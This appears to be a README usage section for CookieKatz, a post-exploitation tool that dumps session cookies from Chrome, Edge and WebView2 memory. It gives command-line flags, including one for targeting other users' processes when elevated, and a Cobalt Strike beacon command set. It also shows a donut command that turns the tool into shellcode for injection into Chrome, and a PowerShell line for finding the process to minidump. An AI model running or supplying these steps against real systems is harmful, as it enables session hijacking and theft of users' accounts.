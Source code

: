 ### CookieKatz

```text
Examples:
.\CookieKatz.exe
    By default targets first available Chrome process
.\CookieKatz.exe /edge
    Targets first available Edge process
.\CookieKatz.exe /pid:<pid>
    Attempts to target given pid, expecting it to be Chrome
.\CookieKatz.exe /webview /pid:<pid>
    Targets the given msedgewebview2 process
.\CookieKatz.exe /list /webview
    Lists available webview processes
.\CookieKatz.exe /inject
    Targets the current process. Use this flag when your are injecting CookieKatz to Chrome process.

TIP! If you need to inject CookieKatz into the Chrome process, you can turn the exe into shellcode using donut:
    .\donut.exe -a 2 --input <Path_to_CookieKatz.exe> -z 4 -b 1 -p "/inject" -t

Flags:
    /edge       Target current user Edge process
    /webview    Target current user Msedgewebview2 process
    /pid        Attempt to dump given pid, for example, someone else's if running elevated
    /list       List targettable processes, use with /edge or /webview to target other browsers
    /inject     Indicate that the process will run in the target process
    /out        Write output to file, default location is "C:\Users\Public\Documents\cookies.log"
    /help       This what you just did! -h works as well
```

### CookieKatz-BOF

```text
beacon> help cookie-katz
Dump cookies from Chrome or Edge
Use: cookie-katz [chrome|edge|webview] [pid]

beacon> help cookie-katz-find
Find processes for Cookie-Katz
Use: cookie-katz-find [chrome|edge|webview]
```

### CookieKatzMinidump

```text
Usage:
    CookieKatzMinidump.exe <Path_to_minidump_file>

Example:
    .\CookieKatzMinidump.exe .\msedge.DMP

To target correct process for creating the minidump, you can use the following PowerShell command:
    Get-WmiObject Win32_Process | where {$_.CommandLine -match 'network.mojom.NetworkService'} | select -Property Name,ProcessId
```
